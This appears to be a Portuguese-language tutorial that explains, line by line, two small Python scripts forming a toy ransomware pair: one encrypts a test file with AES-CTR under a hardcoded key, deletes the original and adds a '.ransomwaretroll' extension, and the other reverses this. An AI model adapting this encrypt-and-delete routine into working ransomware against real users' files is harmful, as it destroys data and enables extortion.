Detalhando o funcionamento deste código:

```python
import os
import pyaes

# Abre o arquivo criptografado em modo de leitura binária
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Define a chave para a descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Descriptografa os dados do arquivo
decrypt_data = aes.decrypt(file_data)

# Remove o arquivo criptografado
os.remove(file_name)

# Cria um novo arquivo descriptografado e escreve os dados descriptografados nele
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

### Explicação Detalhada de um codigo para descriptografa

1. **Importação de Módulos**:
   - `import os`: Importa o módulo `os`, que fornece funções para interagir com o sistema operacional, como manipulação de arquivos.
   - `import pyaes`: Importa a biblioteca `pyaes`, que é usada para criptografia e descriptografia AES (Advanced Encryption Standard).

2. **Abertura do Arquivo Criptografado**:
   - `file_name = "teste.txt.ransomwaretroll"`: Define o nome do arquivo criptografado.
   - `file = open(file_name, "rb")`: Abre o arquivo em modo de leitura binária (`rb`).
   - `file_data = file.read()`: Lê todo o conteúdo do arquivo e armazena em `file_data`.
   - `file.close()`: Fecha o arquivo após a leitura.

3. **Definição da Chave de Descriptografia**:
   - `key = b"testeransomwares"`: Define a chave de descriptografia como uma sequência de bytes. A chave deve ter um comprimento adequado para o algoritmo AES (16, 24 ou 32 bytes).

4. **Descriptografia dos Dados**:
   - `aes = pyaes.AESModeOfOperationCTR(key)`: Cria uma instância do modo de operação CTR (Counter) do AES com a chave fornecida.
   - `decrypt_data = aes.decrypt(file_data)`: Descriptografa os dados lidos do arquivo criptografado usando a chave e o modo de operação definidos.

5. **Remoção do Arquivo Criptografado**:
   - `os.remove(file_name)`: Remove o arquivo criptografado do sistema de arquivos.

6. **Criação do Arquivo Descriptografado**:
   - `new_file = "teste.txt"`: Define o nome do novo arquivo descriptografado.
   - `new_file = open(f'{new_file}', "wb")`: Abre um novo arquivo em modo de escrita binária (`wb`).
   - `new_file.write(decrypt_data)`: Escreve os dados descriptografados no novo arquivo.
   - `new_file.close()`: Fecha o novo arquivo após a escrita.

Este código é um exemplo de como descriptografar um arquivo que foi previamente criptografado usando o algoritmo AES no modo CTR. Ele lê o arquivo criptografado, usa a chave fornecida para descriptografar os dados, remove o arquivo criptografado original e cria um novo arquivo com os dados descriptografados.

-------------------------------------------------------------------------------

Detalhando o funcionamento deste código:

```python
import os
import pyaes

# Abre o arquivo a ser criptografado em modo de leitura binária
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove o arquivo original
os.remove(file_name)

# Define a chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografa os dados do arquivo
crypto_data = aes.encrypt(file_data)

# Salva o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', "wb")
new_file.write(crypto_data)
new_file.close()
```

### Explicação Detalhada de um codigo para criptografa

1. **Importação de Módulos**:
   - `import os`: Importa o módulo `os`, que fornece funções para interagir com o sistema operacional, como manipulação de arquivos.
   - `import pyaes`: Importa a biblioteca `pyaes`, que é usada para criptografia e descriptografia AES (Advanced Encryption Standard).

2. **Abertura do Arquivo a Ser Criptografado**:
   - `file_name = "teste.txt"`: Define o nome do arquivo a ser criptografado.
   - `file = open(file_name, "rb")`: Abre o arquivo em modo de leitura binária (`rb`).
   - `file_data = file.read()`: Lê todo o conteúdo do arquivo e armazena em `file_data`.
   - `file.close()`: Fecha o arquivo após a leitura.

3. **Remoção do Arquivo Original**:
   - `os.remove(file_name)`: Remove o arquivo original do sistema de arquivos para garantir que apenas a versão criptografada permaneça.

4. **Definição da Chave de Criptografia**:
   - `key = b"testeransomwares"`: Define a chave de criptografia como uma sequência de bytes. A chave deve ter um comprimento adequado para o algoritmo AES (16, 24 ou 32 bytes).

5. **Criptografia dos Dados**:
   - `aes = pyaes.AESModeOfOperationCTR(key)`: Cria uma instância do modo de operação CTR (Counter) do AES com a chave fornecida.
   - `crypto_data = aes.encrypt(file_data)`: Criptografa os dados lidos do arquivo original usando a chave e o modo de operação definidos.

6. **Salvamento do Arquivo Criptografado**:
   - `new_file = file_name + ".ransomwaretroll"`: Define o nome do novo arquivo criptografado, adicionando a extensão `.ransomwaretroll` ao nome original.
   - `new_file = open(f'{new_file}', "wb")`: Abre um novo arquivo em modo de escrita binária (`wb`).
   - `new_file.write(crypto_data)`: Escreve os dados criptografados no novo arquivo.
   - `new_file.close()`: Fecha o novo arquivo após a escrita.

Este código é um exemplo de como criptografar um arquivo usando o algoritmo AES no modo CTR. Ele lê o arquivo original, usa a chave fornecida para criptografar os dados, remove o arquivo original e cria um novo arquivo com os dados criptografados.

Espero que isso tenha ajudado a esclarecer o funcionamento do código! 
